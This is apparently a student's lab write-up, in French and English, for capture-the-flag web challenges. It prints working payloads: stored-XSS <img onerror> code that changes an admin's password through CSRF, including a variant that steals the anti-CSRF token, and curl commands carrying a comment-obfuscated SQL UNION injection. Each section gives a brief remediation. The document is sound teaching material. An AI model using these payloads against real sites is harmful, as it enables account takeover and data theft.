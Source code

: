 # Lab 1

## CSRF Simple

### 1. Quelle fonctionnalité du site, potentiellement vulnérable à une faille CSRF, pourriez-vous exploiter pour voler le compte administrateur ?

The password change functionality is vulnerable to CSRF and can be exploited to steal the admin account.

```javascript
fetch("http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn", {
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    "body": "password=test",
    "method": "POST",
});
```

### 2. Proposez une requête qui vous permettra de prendre le contrôle du compte admin, si elle était exécutée par l’administrateur

By tricking the administrator into executing the following request, an attacker can take control of the admin account.

### 3. Écrivez une payload JavaScript qui exécute la requête

```html
<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  })
  .then(response => {
    if (response.ok) {
      alert('Fetch request was successful!');
    } else {
      alert('Fetch request failed with status: ' + response.status);
    }
  })
  .catch(error => alert('Fetch error: ' + error));
">
```

### 4. Quelle fonctionnalité du site, potentiellement vulnérable à une faille Stored XSS, pourriez-vous exploiter pour faire exécuter votre payload ?

La fonctionnalité de validation des entrées utilisateur (input validation) est vulnérable à une attaque Stored XSS.

### 5. Quel est le flag ? Comment avez-vous pu l'obtenir ?

The flag was retrieved by injecting an XSS payload that executes in the admin’s session.

```html
<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  })
  .then(response => {
    if (response.ok) {
      alert('Fetch request was successful!');
    } else {
      alert('Fetch request failed with status: ' + response.status);
    }
  })
  .catch(error => alert('Fetch error: ' + error));
">
```

```bash
Congratulation! Your flag is: 8YeeieGoK/aDoTwo
```

### 6. Comment corrigeriez-vous la vulnérabilité ?

Pour corriger la vulnérabilité, il est nécessaire de mettre en place un mécanisme de protection contre les attaques CSRF (comme l'utilisation de jetons CSRF) et de valider correctement les entrées pour éviter les injections de code.

---

## CSRF Avancée

### 1. Qu’est-ce qu’un jeton anti-CSRF, comment fonctionne-t-il ?

Un jeton anti-CSRF est une valeur unique et aléatoire qui est envoyée avec chaque requête. Il est vérifié côté serveur pour s'assurer que la requête provient d'une session utilisateur authentifiée et non d'une attaque CSRF.

### 2. Comment déterminer si le formulaire est protégé par un jeton anti-CSRF ?

Un formulaire est protégé par un jeton CSRF si un champ caché contenant le jeton est présent dans le formulaire, et ce jeton est vérifié par le serveur lorsqu'une requête est soumise.

### 3. Le site est également vulnérable à une attaque XSS. Quel est le flag du challenge ? Décrivez l’attaque.

L'attaque XSS est déclenchée en injectant du code JavaScript malveillant, qui exécute une requête pour récupérer un jeton CSRF puis modifie les données sensibles.

```html
<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', { method: 'GET' })
    .then(response => response.text())
    .then(html => {
      const parser = new DOMParser();
      const doc = parser.parseFromString(html, 'text/html');
      const csrfToken = doc.querySelector('#_csrf').value;
      
      return fetch('/profile/nathan.rayburn_admin', {
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: `_csrf=${csrfToken}&password=test`,
        method: 'POST'
      });
    })
    .then(response => {
      if (response.ok) {
        alert('Password change request was successful!');
      } else {
        alert('Password change request failed with status: ' + response.status);
      }
    })
    .catch(error => alert('Fetch error: ' + error));
">
```

```bash
Congratulation! Your flag is: wMQf78jUXavuMdp1
```

### 4. Comment corrigeriez-vous la vulnérabilité ?

Pour corriger cette vulnérabilité, il est recommandé de valider et d'échapper toutes les entrées utilisateur avant de les afficher, afin de prévenir les attaques XSS.

---

## Injection SQL

### 1. Quelle partie du service est vulnérable à une injection SQL ?

La fonctionnalité qui permet de récupérer des données en fonction de l'ID dans la base de données est vulnérable à une injection SQL.

```bash
curl 'http://sql.slh.cyfr.ch/flowers' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,de-DE;q=0.8,de;q=0.7,fr;q=0.6' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'DNT: 1' \
  -H 'Origin: http://sql.slh.cyfr.ch' \
  -H 'Referer: http://sql.slh.cyfr.ch/' \
  -H 'User-Agent: Mozilla/5.0' \
  --data-raw '{"id":"4"}' \
  --insecure
```

### 2. Le serveur implémente une forme insuffisante de validation des entrées. Expliquez pourquoi c’est insuffisant.

Le serveur ne valide pas correctement les entrées, permettant ainsi d'injecter des requêtes SQL malveillantes. Cela peut entraîner une fuite de données ou une modification non autorisée des données.

### 3. Quel est le flag ? Comment avez-vous procédé pour l’obtenir ?

Le flag a été obtenu en exploitant une injection SQL pour extraire des données sensibles depuis une table cachée dans la base de données.

```bash
curl 'http://sql.slh.cyfr.ch/flowers' \
  -H 'Accept: */*' \
  --data-raw '{"id":"1/**/UNION/**/SELECT/**/name,/**/value,/**/NULL,/**/NULL/**/FROM/**/super_secret_stuff"}' \
  --insecure
```

```bash
[[1,"Rose","Red",5],["flag","SLH25{D0N7_P4r53_5Q1_M4NU411Y}",null,null]]
```

### 4. Quel est le DBMS utilisé ? Auriez-vous procédé différemment si le DBMS avait été MySQL ou MariaDB ?

Le DBMS utilisé est SQLite, ce qui est révélé par les métadonnées dans la table `sqlite_master`. Si le DBMS avait été MySQL ou MariaDB, l'approche aurait pu être similaire, mais les différences syntaxiques des injections SQL auraient dû être prises en compte.

